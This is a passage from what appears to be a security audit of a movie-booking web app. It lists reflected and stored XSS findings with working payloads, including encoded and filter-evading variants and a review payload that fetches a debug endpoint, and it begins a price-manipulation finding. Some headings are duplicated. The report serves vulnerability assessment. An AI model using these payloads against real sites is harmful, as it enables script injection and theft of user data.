 **Advanced exploitation**:
```bash
# URL encode the payload
http://localhost:5173/movies?search=%3Csvg%2Fonload%3Dconfirm%281%29%3E

# Double encoding
http://localhost:5173/movies?search=%253Csvg%252Fonload%253Dconfirm%25281%2529%253E

# Mixed case + encoding
http://localhost:5173/movies?search=%3CiMg%20sRc%3Dx%20OnErRoR%3Dalert%281%29%3E

# Working payload (SVG XSS)
http://localhost:5173/movies?search=%3Csvg%2Fonload%3Dconfirm%281%29%3E

# Alternative working payload (IMG XSS with unicode)
http://localhost:5173/movies?search=%3Cimg%20src%3Dx%20onerror%3D%5Cu0061%5Cu006c%5Cu0065%5Cu0072%5Cu0074%281%29%3E
```

### 3.2 Stored XSS in Reviews
### 3.1 Stored XSS in Reviews
**Location**: `src/components/MovieDetail.tsx` - Line 320  
**Severity**: High  
**Description**: Review comments rendered with dangerouslySetInnerHTML.

**Exploitation**:
```javascript
// Submit malicious review
{
  "user": "attacker",
  "comment": "<script>alert('Stored XSS')</script>",
  "rating": 5
}

// Alternative payload
{
  "user": "attacker", 
  "comment": "<img src=x onerror=fetch('/api/debug').then(r=>r.text()).then(d=>alert(d))>",
  "rating": 5
}
```

---

## 4. Business Logic Vulnerabilities

### 4.1 Price Manipulation
**Location**: `server/routes/bookings.js` - Line 15-35  
**Severity**: Critical  
**Description**: Client-controlled pricing without server validation.
